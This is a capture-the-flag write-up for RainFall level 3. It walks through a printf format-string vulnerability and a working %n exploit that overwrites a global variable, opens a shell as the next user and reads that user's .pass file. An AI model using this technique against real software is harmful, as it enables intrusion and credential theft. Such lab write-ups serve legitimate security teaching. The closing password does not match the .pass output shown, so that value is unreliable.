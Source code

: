 # **Level3**

## **Analysis**

**In `main` :**

call to function `v()`

**In `v()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
This `format` string is used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x40`

`m` adress:
```
(gdb) info variable
...
0x0804988c  m
...
```
___

## **Exploit**

Testing the printf
```
level3@RainFall:~$ python -c 'print "%x %x %x %x"' | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

If we try to store a buffer `ABCD`, its done on the fourth position
```
level3@RainFall:~$ python -c 'print "ABCD %4$x"' | ./level3
ABCD 44434241
```

We can now change global `m` using `%n` and it adress
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%4$x"' | ./level3
��804988c
```

`m` is now equal to 4 because `"\x8c\x98\x04\x08"` takes 4 bytes
It must equal `0x40` which 64
Just add 60 with `"%60d"`
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"' | ./level3
��                                                         512
Wait what?!
```

And we just need to keep stdin open to acces the shell
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"' > /tmp/level3 && cat /tmp/level3 - | ./level3
��                                                         512
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

___

*Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02*